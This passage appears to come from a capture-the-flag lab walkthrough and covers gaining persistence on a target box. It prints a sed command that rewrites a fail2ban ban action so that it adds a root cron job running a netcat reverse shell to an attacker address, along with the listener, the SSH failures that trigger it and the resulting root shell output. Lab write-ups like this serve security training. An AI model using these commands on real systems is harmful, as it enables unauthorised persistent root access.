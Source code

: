 ### Persistence

Unfortunately, our root shell dies after exactly one minute. This is not surprising and is due to the one-minute SSH ban time from our enumeration. Since the process that triggers our shell only runs for one minute, our shell will terminate when the process stops.

We could achieve persistence in a variety of ways. In this case, we'll create a cron job as root to execute our Netcat reverse shell every minute. From our stable SSH session, let's change the ban action command to create the cron job and append it to the **/etc/crontab** file.

```
fox@fail:~$ sed -i 's:actionban = nc 192.168.118.5 4444 -e /usr/bin/bash:actionban = echo "*  *  *  *  * root nc 192.168.118.5 4444 -e /usr/bin/bash" >> /etc/crontab:g' /etc/fail2ban/action.d/iptables-multiport.conf
fox@fail:~$
```

We'll restart our listener on port 4444 and wait another minute for `fail2ban` to be restarted with the new configuration.

```
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
```

To trigger our shell, we will once again purposely fail our SSH authentication.

```
kali@kali:~$ ssh fox@192.168.120.149
fox@192.168.120.149's password: 
Permission denied, please try again.
fox@192.168.120.149's password:
```

After one minute, the cron job executes our shell, and we obtain a stable connection that will not drop.

```
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.149: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.149] 36862
python -c 'import pty; pty.spawn("/bin/bash")'
root@fail:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```